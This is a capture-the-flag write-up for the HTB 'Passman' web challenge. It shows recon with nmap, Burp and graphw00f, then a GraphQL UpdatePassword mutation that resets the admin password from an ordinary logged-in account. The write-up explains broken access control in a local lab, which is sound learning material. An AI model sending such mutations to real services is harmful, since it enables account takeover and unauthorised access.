#### The passman CTF for the HTB Cyber Apocalypse is based on GraphQL authentication bypass. We can pwn the machine by creating a new account, and passing a password change HTTP request to GraphQL.

We are going to use the Docker image provided to us for Passman. Just so the flag is not spoiled. We will look directly at the provided code in a little bit.
*To launch it with docker, you can type: * `docker run web_passman`

---

Going to the website, we can see the login screen



Lets run `nmap -sC -sV` and see what is open.



For my machine, we can see a Node.js server running an Express middleware service.
Running other nmaps won't help because all of the other ports are closed.

Instead, lets open Burp and pull out one of the HTTP requests.

When we open the Burp browser and navigate to the passman website, we will go ahead and click the *Create* hyperlink. Before you click the link, turn the Intercept option on in Burp, so we can see the HTTP header.

Header:
```
GET /register HTTP/1.1
Host: localhost:1337
sec-ch-ua: "Chromium";v="111", "Not(A:Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:1337/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
Okay! So we see the header is going to a /registery file. Which leads us to this webpage:



That's great! We can see that the website can lets us create an account. When we create an account, and get the HTTP request, we can see an interesting addition to the request.




This type of request is a GraphQL request. There is a tool we can use to verify what GraphQL engine is running, and to verify that we are running GraphQL.

The tool is called [graphw00f](https://github.com/dolevf/graphw00f). To install it you can run `git clone https://github.com/dolev/graphw00f`. 
To run the tool, we will run this command `python3 ./graphw00f/main.py -d -f -t http://<box-ip-addr>:<port>`

The commands we are running do the following:
* -d, --detect <- detect mode
* -f, --fingerprint <- fingerprint mdoe   
* -t URL, --target=URL <- our target website


After running the command, we get the following:



Which is great! Because it confirms our thoughts, and leads us to the next step in the process.


After we finish creating the account, and login, we can finally see the dashboard. 




There aren't a lot of things to view here; but when we create a phrase, we can view two other HTTP requests.





If you haven't noticed yet, we can see that all of the requests we send are going to a `/graphql` directory. This can be beneficial for us to send in requests. 



---
So knowing that we can send in our own requests with GraphQL, we can take a look at the provided code and check out that /graphql directory.

Running `tree` in our web_passman directory will show the following layout:



Unfortunately, the /graphql we saw earlier is not here. That is because it was routing the front end request through to the server. We only need to check out the `/helpers` folder because it has the files we need to look at.

Running an `ls -laph` command will reveal the file that we want to look at, which is the GraphqlHelper.js.



Opening up the GraphqlHelper.js in your favorite code editor/IDE, we can see how GraphQL interacts with POST requests on the Passman website. The most notable things though are when a request is being processed, and the request to change a password.



If we look at this snippit, we can see that the code only checks if the request is being made by an already authenticated user. Which can be problematic if there is no checking mechanism in place.

The function this is attached to is:



This function is called when a user is updating their password. Which is difficult to tell because the website does not show that functionality. 
> <sup>*I am sure that it could be found with a directory traversal, but I don't know how to do that with a GraphQL server.*</sup>

---

Now that we know what function to call for the request, how do we do that?? Well, it is not difficult to do. It is just a modified JSON format.

Taking one of the requests from earlier, we can check the format.
```{
	query: 'mutation($username: String!, $password: String!) { 
	LoginUser(username: $username, password: $password) { message, token } 
		}',
		variables: {
                    'username': user,
                    'password': pass
                }
            }
```
Breaking it into nommable bites, we have:
- `"query"` which allows us to tell GraphQL we want to do something.
- `"mutation()"` which tells GraphQL we want to modify something.
	- The variables will change depending on what the code is like.
- `LoginUser(username, password)` This is the function that is being called.
- `variables` this connects the input variables to the query. 

Before doing the full query, we want to log back into our fake account and use Burp to run the query. This is so we can bypass the `if (!request.user)` that is present in the helper code.

When we are logged in, we go to Burp, and send the login request to the Burp Repeater. Remember to add the session cookie to the request, so we are *authenticated*. From there, we can modify the request string, and reset the admin password.

We want to change this request
```
{"query":"mutation($username: String!, $password: String!) { LoginUser(username: $username, password: $password) { message, token } }","variables":{"username":"tmp","password":"tmp"}}

```

Into this request
```
{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }","variables":{"username":"admin","password":"tmp"}}
```

After sending the request, it should come back like this:



If it looks like that then great!! We can now login to the admin page, and retrieve the password.



